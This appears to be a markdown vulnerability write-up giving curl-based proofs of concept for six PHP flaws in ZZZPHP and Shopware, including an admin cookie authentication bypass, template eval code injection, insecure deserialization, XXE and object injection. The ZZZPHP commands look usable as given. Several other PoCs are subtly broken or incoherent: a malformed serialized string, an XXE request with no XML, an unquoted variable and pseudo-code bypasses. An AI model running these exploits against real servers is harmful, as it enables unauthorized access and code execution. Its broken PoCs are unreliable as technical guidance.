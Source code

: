 # PHP Vulnerabilities

### 1) ZZZPHP ISSESSION adminid Authentication Bypass

#### Vulnerability Analysis

- The application employs a session management mechanism with the option
to use cookies instead.

- Authentication is checked using the get_session() function.

- The ISSESSION constant determines whether to use session or cookie for storage.

- The get_session() function returns user-controlled data if ISSESSION is set to 0.

- The ISSESSION constant is defined as 0, allowing an attacker to manipulate
session data.

- The absence of proper authentication checks allows unauthorized access.

#### PoC

- Sending a request with a crafted cookie grants access without proper authentication.

- Without the cookie, the server redirects to the login page due to failed authentication.

This command sends a GET request to the admin page with the crafted cookie zzz_adminid=1 , bypassing authentication:

      export TARGET_HOST="target:8080
      curl -i -X GET "http://$TARGET_HOST/admin871/?index" -H "Cookie: zzz_adminid=1"

### 2) ZZZPHP parserIfLabel eval PHP Code Injection

#### Vulnerability Analysis

1. Injection Stage:

- The vulnerability allows an attacker to inject arbitrary PHP code into a specific file, in this case, search.html .

- The injection point is within the {if: ... } {end if} template syntax.

2. Execution Stage:

- After injection, the PHP code injected into search.html is executed due to improper handling of template parsing.

- The vulnerable code relies on the eval() function, which executes the injected PHP code.

#### PoC

This command sends a POST request to edit search.html , injecting the PHP code phpinfo() into it.

1. Injecting PHP Code:

        export TARGET_HOST="target:8080"
        curl -X POST "http://$TARGET_HOST/admin871/save.php?act=editfile" -H "Cookie: zzz_adminid=1" -d "file=/template/pc/cn2016/html/search.html&filetext={if:phpinfo()}{end if}"

2. Triggering Execution:

- After injecting the PHP code, accessing the search.html page or triggering its rendering will execute the injected code.

- The execution results in the phpinfo() function being called, disclosing sensitive server information.

### 3) The Ev1l eva1 Deny list

1. The getform() function filters user input but doesn't check $_SERVER , $_REQUEST ,and $_COOKIE .

2. The txt_html() function replaces instances of "eval" with "eva1", attempting to prevent its execution.

3. However, this can be bypassed creatively to achieve code execution.

#### PoC

      <?php
      // Crafted input with 'eval' bypass
      $input = [
      'user_input' => 'eval',
      'server_input' => '<?php phpinfo(); ?>', // Server input
      'cookie_input' => 'cookie_value', // Cookie input
      ];
      // Send the request with crafted input
      // Target the vulnerable function
      send_request($input);

Explanation:

- Craft input containing "eval" in the $_POST data.

- Include PHP code in $_SERVER data.

- The server will process the $_POST data, executing the PHP code in $_SERVER .

- Achieve dynamic code execution despite the "eval" replacement.

### 4) Shopware PHP Object Instantiation

The vulnerability lies in the deserialization process of user-controlled data in the Shopware application, specifically in the ProductStream.php controller. The sort parameter is passed to the unserialize() method, which leads to the execution of arbitrary code due to insecure deserialization.

#### PoC

Craft malicious serialized data with arbitrary code execution

      $serialized_data = 'O:4:"Evil":1:{s:4:"exec";s:8:"phpinfo()";}';

Send the request with crafted serialized data

      curl -X POST "http://target:8080/backend/ProductStream/loadPreview" -d "sort=$serialized_data" -H "Content-Type: application/x-www-form-urlencoded" -u "demo:demo"

Explanation:

- Craft malicious serialized data containing PHP code to execute phpinfo().

- Send the request to the vulnerable endpoint with the crafted serialized data.

- The application deserializes the data and executes the arbitrary PHP code.

### 5) XML Parsing

The vulnerability lies in the XML parsing functionality of the Shopware application, specifically in the handling of external entities. XML External Entity (XXE) injection occurs when the XML parser processes malicious XML data containing references to external entities, leading to various attacks such as information disclosure, server-side request forgery (SSRF), denial of service, and even remote code execution.

#### PoC

Generate CSRF token with authenticated session

      curl -X GET "http://target:8080/backend/CSRFToken/generate" -H "Cookie: SHOPWAREBACKEND=hd3loipaud5dj4mksts2l2ssj1"

Send malicious request triggering XXE injection

      curl -X GET "http://target:8080/backend/ProductStream/loadPreview?sort={}" -H "X-CSRF-Token: s2mwtrAQE4D6wofVRArlVKDGgzQQdQ" -H "Cookie: SHOPWAREBACKEND=6ni6hpb61nu0699siq9judjpcs" -d "{}"

Explanation:

- Generate a CSRF token using the authenticated session.

- Craft a request to the vulnerable endpoint with a malicious JSON payload containing an empty object {} for the sort parameter.

- The application processes the JSON payload, triggering the XXE vulnerability by parsing the XML data from the attacker-supplied URI.

### 6) Crafting the SimpleXMLElement Object for Object Injection

The vulnerability revolves around crafting malicious objects in PHP, particularly leveraging magic methods like __construct for object injection. This can lead to various forms of exploitation, including deserialization attacks and potentially remote code execution

#### PoC

Search for interesting classes and constructors

      grep -ir "__construct" engine/Shopware/ custom/plugins/custom/project/

Craft malicious object with __construct payload

      echo '<?php class Foo { public function __construct($name) { eval($name); }} ?>' > exploit.php
      echo '{"Foo":{"name":"system(\'id\');" }}' > payload.json

Trigger object instantiation with crafted payload

      curl -X GET "http://target:8080/backend/ProductStream/loadPreview?sort=$(cat payload.json)" -H "X-CSRF-Token: s2mwtrAQE4D6wofVRArlVKDGgzQQdQ" -H "Cookie: SHOPWAREBACKEND=6ni6hpb61nu0699siq9judjpcs"

Explanation:

- Search for classes and constructors to identify potential targets for exploitation.

- Craft a PHP file defining a class with a malicious __construct method, allowing arbitrary code execution.

- Generate a JSON payload specifying the class name and constructor arguments.

- Send a crafted request to trigger object instantiation with the malicious payload, potentially leading to code execution.

